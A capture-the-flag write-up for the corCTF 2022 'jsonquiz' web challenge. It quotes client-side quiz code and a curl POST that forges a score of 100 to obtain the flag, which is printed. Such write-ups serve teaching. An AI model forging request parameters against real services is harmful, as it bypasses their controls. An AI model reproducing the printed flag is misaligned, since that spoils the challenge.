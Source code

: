 ```yaml
---
tags: writeup, corctf2022
---
```

# Writeup - web/jsonquiz
## Challenge
Author: strellic
How well do you know JSON? Take this quiz and find out!
## Solution
Opening up the site we see a page with some text and a button to start the quiz.
Looking at the source we find a quiz.js file. The logic of the quiz is there including scoring:
``` 
    // TODO: implement scoring somehow
    // kinda lazy, ill figure this out some other time

    setTimeout(() => {
        let score = 0;
        fetch("/submit", {
            method: "POST",
            headers: {
                "Content-Type": "application/x-www-form-urlencoded"
            },
            body: "score=" + score
        })
        .then(r => r.json())
        .then(j => {
            if (j.pass) {
                $("#reward").innerText = j.flag;
                $("#pass").style.display = "block";
            }
            else {
                $("#fail").style.display = "block";
            }
        });
    }
```
The user can completely control the score, so i just gave myself 100 points!
```
> curl -X POST "https://jsonquiz.be.ax/submit" -d "score=100"

{"pass":true, "flag":"corctf{th3_linkedin_JSON_quiz_is_too_h4rd!!!}"}
```
## Flag
corctf{th3_linkedin_JSON_quiz_is_too_h4rd!!!}